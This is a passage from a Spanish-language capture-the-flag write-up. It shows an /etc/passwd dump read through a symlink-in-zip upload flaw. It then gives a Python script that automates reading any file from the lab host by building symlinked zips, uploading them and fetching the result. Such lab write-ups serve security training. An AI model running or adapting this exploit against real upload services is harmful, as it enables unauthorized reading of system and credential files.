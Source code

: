 ```shell
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

¡Eso fue fácil!

Ahora vamos como nos podemos aprovechar de este LFI, pero antes voy a scriptear esto ya que si no voy a tardar mucho en solicitar el archivo, ya que para cada uno tendría que crear el enlace simbólico, el zip y subirlo...

Este es el script
```python
import os
import requests
import signal
import re
from bs4 import BeautifulSoup

BASE_URL = "http://10.129.229.87"

def def_handler(x,y):
    print("\n[i] Saliendo...")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

def create_symbolic_link(file):
    os.system(f"ln -s {file} pwn.pdf")
    return "pwn.pdf"

def create_zip_file(link_path):
    os.system(f"zip -r --symlink pwn.zip {link_path} >> /dev/null")
    return "pwn.zip"

def upload_file(zip_path):
    r = requests.Session()
    files = {'zipFile': ('pwn.zip', open(zip_path,'rb').read())}
    data = {'submit': ''}
    res = r.post('%s/upload.php' % BASE_URL, files=files,data=data)

    soup = BeautifulSoup(res.text, 'html.parser')
    links = soup.find_all('a')
    href_values = [link.get('href') for link in links]

    pattern = re.compile(r'^uploads/[0-9a-f]{32}/pwn\.pdf$')
    filtered_hrefs = [link.get('href') for link in links if pattern.match(link.get('href'))]
    upload_url = filtered_hrefs[0]
    return upload_url    


def read_file(upload_path):
    res = requests.get(BASE_URL+ "/" + upload_path)
    print(res.text)
```
